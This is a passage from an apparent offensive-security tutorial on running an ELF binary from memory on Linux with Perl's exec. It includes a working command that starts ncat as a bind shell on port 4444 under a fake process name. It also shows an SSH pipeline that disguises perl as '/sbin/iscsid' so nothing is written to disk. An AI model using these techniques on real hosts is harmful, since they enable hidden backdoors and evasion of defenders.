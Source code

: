 We can now have our ELF process run multiple times or in a separate process.
Let's do it.

### `execve(2)`

Linux process creation is a funny thing.  Ever since the [early days of
Unix](http://www.read.seas.harvard.edu/~kohler/class/aosref/ritchie84evolution.pdf),
process creation has been a combination of not much more than duplicating a
current process and swapping out the new clone's program with what should be
running, and on Linux it's no different.  The
[`execve(2)`](http://man7.org/linux/man-pages/man2/execve.2.html) system call
does the second bit: it changes one running program into another.  Perl gives
us [`exec()`](http://perldoc.perl.org/functions/exec.html), which does more or
less the same, albiet with easier syntax. 

We pass to `exec()` two things: the file containing the program to execute
(i.e.  our in-memory ELF binary) and a list of arguments, of which the first
element is usually taken as the process name.  Usually, the file and the
process name are the same, but since it'd look bad to have `/proc/<PID>/fd/3`
in a process listing, we'll name our process something else.

The syntax for calling `exec()` is a bit odd, and explained much better in the
documentation.  For now, we'll take it on faith that the file is passed as a
string in curly braces and there follows a comma-separated list of process
arguments.  We can use the variable `$$` to get the pid of our own Perl
process.  For the sake of clarity, the following assumes we've put `ncat` in
memory, but in practice, it's better to use something which takes arguments
that don't look like a backdoor.

```perl
exec {"/proc/$$/fd/$fd"} "kittens", "-kvl", "4444", "-e", "/bin/sh" or die "exec: $!";
```
The new process won't have the anonymous file open as a symlink in
`/proc/<PID>/fd`, but the anonymous file will be visible as the
`/proc/<PID>/exe` symlink, which normally points to the file containing the
program which is being executed by the process.

We've now got an ELF binary running without putting anything on disk or even in
the filesystem.

### Scripting it

It's not likely we'll have the luxury of being able to sit on target and do all
of the above by hand.   Instead, we'll pipe the script (`elfload.pl` in the
example below) via SSH to Perl's stdin, and use a bit of shell trickery to keep
`perl` with no arguments from showing up in the process list:

```bash
cat ./elfload.pl | ssh user@target /bin/bash -c '"exec -a /sbin/iscsid perl"'
```
This will run Perl, renamed in the process list to `/sbin/iscsid` with no
arguments. When not given a script or a bit of code with `-e`, Perl expects a
script on stdin, so we send the script to perl stdin via our local SSH client.
The end result is our script is run without touching disk at all.
